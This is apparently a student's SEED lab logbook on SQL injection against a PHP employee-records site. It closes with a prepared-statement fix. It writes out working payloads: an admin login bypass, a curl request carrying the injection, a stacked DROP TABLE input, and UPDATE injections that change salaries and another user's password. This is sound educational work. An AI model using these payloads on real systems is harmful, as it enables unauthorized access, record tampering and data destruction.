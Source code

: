 # SQL Injection LogBook

This logbook documents the exploration and findings in the SQL Injection lab. It aims to analyze the vulnerabilities, identify errors, and propose modifications to enhance system security against such attacks.

## Task 1

The initial task involves adapting to the environment using the MySQL command line:

```sh
mysql -u root -pdees
```

Followed by listing the tables:

```sh
show tables;
```


## Task 2

The focus is on a PHP file running on the server, handling user authentication:

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);
```

The associated form:

![Form1](images/LOGBOOK8/form1.png)

### Task 2.1 - Attack from webpage

Exploiting the vulnerability with a crafted input:

`username: admin'; -- `


`password: <anything> `

This approach works, because the sql statement that will be queried to the database will be partionally connected and, with that, we can enter the system:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; -- and Password=’<anything>";
```

### Task 2.2 - Attack from command line

Executing a similar attack from the command line:

```sh
curl ’www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password=<anything>’
```

This approach works and the justification is similar to task 2.1

### Task 2.3 - Append a new SQL statement

Attempting to add a new SQL statement:

`username: admin'; DROP TABLE credential; -- `


`password: <anything> `

This approach will lead to a query like this:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; DROP TABLE credential; -- and Password=’<anything>";
```

Explanation: The attempt fails due to the protection mechanism executing only the first query.

## Task 3

Examining PHP code for updating user profiles:

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
   nickname=’$input_nickname’,
   email=’$input_email’,
   address=’$input_address’,
   Password=’$hashed_pwd’,
   PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

The associated form:

![Form2](images/LOGBOOK8/form2.png)

### Task 3.1 - Modify own salary

Crafting input for modifying own salary:

`nickname: <nickname>', salary = 1000000 WHERE nickname = <nickname>; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

With that, we reach the following sql code:

```sql
UPDATE credential SET
   nickname=’<nickname>’, salary = 1000000 WHERE nickname = <nickname>; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

### Task 3.2 - Reduce the Boby's salary

Crafting input for reducing Boby's salary:

`nickname: Boby', salary = 1 WHERE nickname = Boby; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

We reach the following query:

```sql
UPDATE credential SET
   nickname=’Boby’, salary = 1 WHERE nickname = Boby; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

### Task 3.3 - Modify other people’ password

For this example, assuming that we know that the password is hashed using the sha1 method, we can change the password manually. For instance, let's change the password of Boby to `banana`. If we consult [this site](http://www.sha1-online.com), we reach the hashed password, so we can see this:

`nickname: Boby', password = '250e77f12a5ab6972a0895d290c4792f0a326ea8' WHERE nickname = Boby; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

```sql
UPDATE credential SET
   nickname=’Boby’, password = '250e77f12a5ab6972a0895d290c4792f0a326ea8' WHERE nickname = Boby; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

## How to prevent this kind of attack

Here are some suggestations to make this kind of attacks more difficult to occur:

1. Use Parameterized Statements (Prepared Statements) to distinguish between SQL code and data:

```php
$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);

$stmt = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
                        FROM credential
                        WHERE name=? AND Password=?");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);

$stmt->execute();

$result = $stmt->get_result();
```

2. Implement input validation using regular expressions and other techniques.

